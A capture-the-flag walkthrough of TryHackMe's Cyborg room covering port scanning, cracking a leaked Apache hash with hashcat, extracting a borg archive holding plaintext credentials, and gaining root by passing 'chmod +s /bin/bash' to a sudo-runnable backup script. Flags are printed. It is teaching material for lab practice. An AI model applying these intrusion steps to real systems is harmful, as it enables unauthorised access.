





# Cyborg
**Date:** March 10th 2022

**Author:** j.info

**Link:** [**Cyborg**](https://tryhackme.com/room/cyborgt8) CTF on TryHackMe

**TryHackMe Difficulty Rating:** Easy

<br>


<br>

## Objectives
- Scan the machine, how many ports are open?
- What service is running on port 22?
- What service is running on port 80?
- user.txt flag
- root.txt flag

<br>

## Initial Enumeration

### Nmap Scan

`sudo nmap -sV -sC -A -T4 10.10.95.32`

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
```

With this scan we can answer the first 3 questions in task 2:

How many open ports?
> 2

What service is on port 22?
> ssh

What service is on port 80?
> http

<br>

### Gobuster Scan

`gobuster dir -u http://10.10.95.32 -t 100 -r -x php,txt,html -w dir-med.txt`

```
/.htaccess.html       (Status: 403) [Size: 276]
/.htpasswd            (Status: 403) [Size: 276]
/.htaccess.txt        (Status: 403) [Size: 276]
/etc                  (Status: 200) [Size: 926]
/.htpasswd.txt        (Status: 403) [Size: 276]
/.htaccess            (Status: 403) [Size: 276]
/.htaccess.php        (Status: 403) [Size: 276]
/.htpasswd.php        (Status: 403) [Size: 276]
/.htaccess.htm        (Status: 403) [Size: 276]
/.htpasswd.htm        (Status: 403) [Size: 276]
/server-status        (Status: 403) [Size: 276]
/.htpasswd.html       (Status: 403) [Size: 276]
/admin                (Status: 200) [Size: 5771]
```

<br>

## Website Digging

Visiting the main page shows us a default Apache2 instance:



<br>

Heading over to **/admin**:


<br>

And the **admins** link on that page:



<br>

So we have a few potential usernames, and mention of a squid proxy and config files laying around. Let's check out the **/etc** directory from the gobuster scan:



<br>

That's the squid mentioned in the admins shoutbox. Inside that:



<br>

That **passwd** file definitely looks interesting. It's contents:

```
music_archive:$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.
```

And the **squid.conf** file:

```
auth_param basic program /usr/lib64/squid/basic_ncsa_auth /etc/squid/passwd
auth_param basic children 5
auth_param basic realm Squid Basic Authentication
auth_param basic credentialsttl 2 hours
acl auth_users proxy_auth REQUIRED
http_access allow auth_users
```

<br>

## Password Cracking

Let's go ahead and try to crack that password since we'll probably need it in the upcoming steps. I head over to the [**hashcat.net wiki**](https://hashcat.net/wiki/doku.php?id=example_hashes) to identify the hash type and find it's a **Apache apr1** type hash and the hashcat type identifier is **1600**.

Using **hashcat** to crack the password:

`hashcat -m 1600 -w 3 -D 2 hash.txt rockyou.txt`

And in a very short time we have the password:

```
$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.:squidward
```

<br>

## Borg Archive

The last thing of interest I found on the website was a file we can download. Under the **Archive** menu at the top select **Download** and it lets you download a file called **archive.tar**.

Uncompressing it via `tar -xvf archive.tar`:

```bash
home/field/dev/final_archive/
home/field/dev/final_archive/hints.5
home/field/dev/final_archive/integrity.5
home/field/dev/final_archive/config
home/field/dev/final_archive/README
home/field/dev/final_archive/nonce
home/field/dev/final_archive/index.5
home/field/dev/final_archive/data/
home/field/dev/final_archive/data/0/
home/field/dev/final_archive/data/0/5
home/field/dev/final_archive/data/0/3
home/field/dev/final_archive/data/0/4
home/field/dev/final_archive/data/0/1
```

Taking a look at the **README** file in the archive shows us that it's a **borg archive**. I head over to the borg website and look up information on extracting the archive files. You can [**find that here**](https://borgbackup.readthedocs.io/en/stable/usage/extract.html).

Running the following command extracts the archive. Note: you'll need to enter the password we cracked earlier when it asks for the passphrase:

`borg extract final_archive::music_archive`

And the contents of the archive:

`tree home`

```bash
home
└── alex
    ├── Desktop
    │   └── secret.txt
    ├── Documents
    │   └── note.txt
    ├── Downloads
    ├── Music
    ├── Pictures
    ├── Public
    ├── Templates
    └── Videos

9 directories, 2 files
```

So we have 2 files to take a look at. The first is **secret.txt**:

```
shoutout to all the people who have gotten to this stage whoop whoop!"
```

Love the encouragement Mr. Author Guy :)

And **note.txt**:

```
Wow I'm awful at remembering Passwords so I've taken my Friends advice and noting them down!

alex:S3cretP@s3
```

Now that we have credentials we can probably ssh over to the box.

<br>

## System Access

I try and connect over via `ssh alex@10.10.95.32`

```bash
The authenticity of host '10.10.95.32 (10.10.95.32)' can't be established.
ED25519 key fingerprint is SHA256:hJwt8CvQHRU+h3WUZda+Xuvsp1/od2FFuBvZJJvdSHs.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.95.32' (ED25519) to the list of known hosts.
alex@10.10.95.32's password: 
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.15.0-128-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


27 packages can be updated.
0 updates are security updates.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

alex@ubuntu:~$
```

And we're in! With that we can get the **user.txt** flag in the alex home directory.

`cat user.txt`

> flag{1_hop3_y0u_ke3p_th3_arch1v3s_saf3}


<br>

## System Enumeration

I take a look around his home directory and find that he does have sudo access given there is a **.sudo_as_admin_successful** file there. The system also does not have bash history going to /dev/null so we acn look at what was done previously in **.bash_history**.

First let's see what `sudo -l` shows us:

```bash
Matching Defaults entries for alex on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alex may run the following commands on ubuntu:
    (ALL : ALL) NOPASSWD: /etc/mp3backups/backup.sh
```

So we can run that **backup.sh** script as root. Definitely worth looking into.

Taking a quick look at the **.bash_history** file:

```bash
ftp localhost
ls
rm examples.desktop 
ls -la
ls
ls -la
ls
exit
su alex
exit
su root
sudo su -
exit
sudo -l
cd /var
ls
cd ..
cd etc
ls
cd ..
cd root
ls
cd /etc/mp3backups/
ls
./backup.sh 
ls
echo "hi" >> backup.sh
ls
sudo ./backup.sh -c whoami
sudo ./backup.sh -c /bin/bash
ls
cd /home/alex
ls
sudo bash -c 'echo "flag{1_hop3_y0u_ke3p_th3_arch1v3s_saf3}" > /home/alex/user.txt'
ls
sudo bash -c 'echo "flag{1_hop3_y0u_ke3p_th3_arch1v3s_saf3}" > /home/alex/user.txt'
ls
cat user.txt 
sudo chown alex:alex/home/alex/user.txt
ls
cat user.txt 
exit
history
exit
```

We can clearly see how we will be able to escalate over to root but let's dig into it a little more by looking at the **backup.sh** source code.

```bash
#!/bin/bash

sudo find / -name "*.mp3" | sudo tee /etc/mp3backups/backed_up_files.txt


input="/etc/mp3backups/backed_up_files.txt"
#while IFS= read -r line
#do
  #a="/etc/mp3backups/backed_up_files.txt"
#  b=$(basename $input)
  #echo
#  echo "$line"
#done < "$input"

while getopts c: flag
do
        case "${flag}" in 
                c) command=${OPTARG};;
        esac
done


backup_files="/home/alex/Music/song1.mp3 /home/alex/Music/song2.mp3 /home/alex/Music/song3.mp3 /home/alex/Music/song4.mp3 /home/alex/Music/song5.mp3 /home/alex/Music/song6.mp3 /home/alex/Music/song7.mp3 /home/alex/Music/song8.mp3 /home/alex/Music/song9.mp3 /home/alex/Music/song10.mp3 /home/alex/Music/song11.mp3 /home/alex/Music/song12.mp3"

# Where to backup to.
dest="/etc/mp3backups/"

# Create archive filename.
hostname=$(hostname -s)
archive_file="$hostname-scheduled.tgz"

# Print start status message.
echo "Backing up $backup_files to $dest/$archive_file"

echo

# Backup the files using tar.
tar czf $dest/$archive_file $backup_files

# Print end status message.
echo
echo "Backup finished"

cmd=$($command)
echo $cmd
```

With this block of code we can submit an optional argument when running the backup.sh command:

```bash
while getopts c: flag
do
        case "${flag}" in 
                c) command=${OPTARG};;
        esac
done
```

And this block of code will execute the optional argument after all other commands have finished in the script:

```bash
cmd=$($command)
echo $cmd
```

So as a test if we try and run `ls -al /root` right now without the script we get the following:

```bash
ls: cannot open directory '/root': Permission denied
```

But if we run the same as an optional argument with the bash script like this:

```bash
sudo ./backup.sh -c "ls -al /root"
```

We get the following at the bottom of the backup script output:

```
Backup finished
total 36 drwx------ 4 root root 4096 Dec 30 2020 . drwxr-xr-x 24 root root 4096 Dec 30 2020 .. -rw------- 1 root root 2875 Dec 31 2020 .bash_history -rw-r--r-- 1 root root 3106 Oct 22 2015 .bashrc drwx------ 2 root root 4096 Aug 6 2020 .cache drwxr-xr-x 2 root root 4096 Dec 30 2020 .nano -rw-r--r-- 1 root root 148 Aug 17 2015 .profile -r-xr--r-- 1 root root 43 Dec 30 2020 root.txt -rw-r--r-- 1 root root 66 Dec 30 2020 .selected_editor
```

That proves we can run commands as root at this point and it should be trivial to obtain a root shell at this point.

<br>

## Root Access

I decide to just change **/bin/bash** so that it has the **SUID** bit set allowing others to run as root. The following command does this:

`sudo ./backup.sh -c "chmod +s /bin/bash"`

Checking the file to make sure that took with `ls -al /bin/bash`:

```bash
-rwsr-sr-x 1 root root 1037528 Jul 12  2019 /bin/bash
```

We can see that it's set with SUID and we should be able to just run it with the **-p** argument to launch a root shell:

`/bin/bash -p`

```bash
alex@ubuntu:/etc/mp3backups$ /bin/bash -p
bash-4.3# whoami
root
```

And displaying our final objective the **root.txt** file:

`cat /root/root.txt`

> flag{Than5s_f0r_play1ng_H0p£_y0u_enJ053d}

<br>

And with that we've finished this CTF!



<br>

## Conclusion

A quick run down of what we covered in this CTF:

- Basic enumeration with **nmap** and **gobuster**
- Manual investigation of a website
- Cracking passwords using **hashcat**
- Working with **borg archives** to extract archived data
- Examining insecure source code that runs with elevated privileges and using it to escalate to root

<br>

Many thanks to:
- [**fieldraccoon**](https://tryhackme.com/p/fieldraccoon) for creating this CTF
- **TryHackMe** for hosting this CTF.

<br>

You can visit them at: [**https://tryhackme.com**](https://tryhackme.com)